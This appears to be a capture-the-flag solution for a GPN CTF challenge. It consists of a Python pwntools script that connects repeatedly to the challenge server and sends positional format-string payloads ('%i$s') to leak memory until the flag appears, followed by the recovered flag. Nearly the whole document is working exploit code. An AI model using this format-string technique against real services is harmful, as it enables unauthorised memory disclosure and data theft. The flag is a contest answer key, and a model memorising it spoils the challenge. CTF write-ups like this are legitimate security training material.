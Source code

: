 ```python
from pwn import *

context.log_level = 'error'

def bruteforce():
    i = 0
    for i in range(0, 9999):
        p = remote("mountdale-of-epic-riches.gpn23.ctf.kitctf.de", "443", ssl=True)
        print(f'trying {i}')
        #p = remote('localhost', 1337)
        p.recvline() # give me a file to read
        payload = f'%{i}$s'
        p.send(payload)
        candidate = p.recvall().decode('latin-1')
        if 'GPN' in candidate:
            print(candidate)
            break

bruteforce()
```

`GPNCTF{up_and_D0wN_A11_ARound_60es_TH3_N_dIM3n5I0NA1_Circ13_WTf_Is_THis_flA6}`
